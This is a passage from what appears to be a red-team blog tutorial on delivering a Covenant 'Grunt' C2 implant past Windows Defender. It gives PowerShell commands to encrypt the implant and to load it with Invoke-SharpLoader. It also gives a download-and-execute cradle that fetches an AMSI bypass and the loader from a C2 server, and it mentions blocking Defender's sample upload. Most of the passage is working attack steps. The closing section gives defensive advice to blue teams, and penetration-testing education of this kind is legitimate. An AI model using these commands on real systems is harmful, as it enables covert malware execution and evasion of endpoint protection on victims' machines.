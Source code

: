    ![broken]({{ site.baseurl }}/images/2021-16-01/powershdll_popped.png  "PowerShdll popped")

3. Prepare Invoke-SharpLoader  

    Encrypt our default Grunt.exe    
    ```powershell
    . .\Invoke-SharpEncrypt.ps1  
    Invoke-SharpEncrypt -file C:\Tools_manual\nim-1.4.2\examples\Offensive\GruntHTTP.exe -password LuemmelSec -outfile C:\users\Luemmel\Desktop\Grunt_SharpLoader.enc  
    ``` 

    ![broken]({{ site.baseurl }}/images/2021-16-01/sharpencrypt.png  "sharpencrypt")

    Host the encrypted file on our Covenant server under ```Listeners -> listener -> Hosted Files -> + Create```

    Adapt the Invoke-SharpLoader script to directly load our encrypted payload from the webserver by adding this to the last line:  
    ```powershell
    Invoke-SharpLoader -location http://10.55.0.30/Grunt_SharpLoader.enc -password LuemmelSec -noArgs
    ```

    ![broken]({{ site.baseurl }}/images/2021-16-01/adapt_isl.png  "sharpencrypt")

    And host this file as well on our Covenant server under i.e. /Invoke-SharpLoader  

4. Execute our Powershell load script  
    
    In the last step we put together a short script that we can call from our PowerShdll which looks like this:  
    ```powershell
    iex(new-object net.webclient).downloadstring('http://10.55.0.30/amsibypass');
    iex(new-object net.webclient).downloadstring('http://10.55.0.30/Invoke-SharpLoader');
    ```
    Remeber AMSI is still in place here, so we need to bypass it - even inside PowerShdll. Luckily for us, Invoke-Sharploader has a integrated C# and ETW bypass, so we just take care for the normal PowerShell AMSI bypass beforehand.  

    Upload to our Covenant server under /init.  

    *Guns loaded - give em hell*  

    ![broken]({{ site.baseurl }}/images/2021-16-01/gunmeme.jpg  "guns loaded")

    ![broken]({{ site.baseurl }}/images/2021-16-01/guns_fired.png  "guns fired")
    ![broken]({{ site.baseurl }}/images/2021-16-01/grunt_incoming.png  "incoming")
    ![broken]({{ site.baseurl }}/images/2021-16-01/grunt_executes.png  "executing")

    As you can see Defender would really like to upload our sample for further analysis but - nahhhh.

### Conclusion  

We have seen that the Blue Team has lots of possibilities to make an attackers life much harder.  
Keep your security products up to date, and implement them correctly.  
Make use of all the nice features that your OS or security product provider is offering you. We often find customers using an AV-product with nearly all features disabled. These are the cases giving us the easiest bypass possibilities.   
Play with the stuff you learned here to get a better understanding of your infrastructure and detect your weakpoints.  
